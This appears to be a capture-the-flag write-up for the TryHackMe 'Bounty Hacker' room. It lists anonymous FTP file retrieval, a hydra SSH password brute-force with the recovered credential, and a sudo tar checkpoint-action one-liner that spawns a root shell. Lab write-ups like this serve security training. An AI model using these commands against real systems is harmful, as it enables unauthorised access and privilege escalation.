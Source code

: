 # Bounty Hacker (THM)

- https://tryhackme.com/room/cowboyhacker
- March 2, 2023
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   - anonymous FTP login allowed
2. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - server - Apache/2.4.18 (Ubuntu)

- check ftp anonymous login
  - two files found
  - get files from ftp server (find a command to download from ftp server from hacktricks)

```sh
wget -m --no-passive ftp://anonymous:anonymous@$IP
```

- get two files
  - locks.txt
  - task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
- contents of locks.txt file may be passwords
- brute force ssh with user `lin` with password from locks.txt

```sh
hydra -l lin -P from_ftp/locks.txt ssh://$IP
# login: lin   password: RedDr4gonSynd1cat3
```

## User Access

- Enter ssh with lin user

- `sudo -l` for lin

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

## Root Access

- from gtfobins, sudo for tar

```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- get root access

---
